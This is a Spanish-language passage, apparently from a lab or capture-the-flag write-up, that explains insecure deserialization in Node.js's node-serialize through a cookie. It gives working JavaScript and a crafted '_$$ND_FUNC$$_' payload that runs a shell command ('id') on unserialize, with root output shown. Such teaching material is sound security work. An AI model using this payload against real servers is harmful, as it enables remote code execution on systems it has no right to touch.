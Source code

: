 Podemos ver que lo que se esta almacenando en la cookie se deserializa. Podemos aprovecharnos de esto debido a que podemos introducir lo que queramos con las cookies. Voy a explicar de una forma rapida como funciona la deserialización y serialización en NodeJS

Vamos a tener dos archivos. Uno para serializar que será este:

```js
var y = {
rce : function(){
require('child_process').exec('id', function(error,
stdout, stderr) { console.log(stdout) });
},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));

```

Si tratamos de ejecutar ese archivo con node podemos ver los datos serializados.

```bash
❯ node test.js
Serialized: 
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('id', function(error,\nstdout, stderr) { console.log(stdout) });\n}"}
```

¿Cómo podemos aprovecharnos de esto? Bien si nos fijamos en este otro fichero podemos ver lo siguiente:

```js
var y = {
rce : function(){
require('child_process').exec('id', function(error,
stdout, stderr) { console.log(stdout) });
}(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Aparentemente igual podemos ver que se han añadido unos () si ejecutamos el script podemos ver lo siguiente:

```bash
❯ node test2.js
Serialized: 
{}
uid=0(root) gid=0(root) grupos=0(root)
```

Se ha ejecutado el comando que habiamos serealizado. Vamos a probar si ocurre lo mismo deserealizando:

```js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'id \',function(error, stdout, stderr) { console.log(stdout)});}()"}';
serialize.unserialize(payload);
```
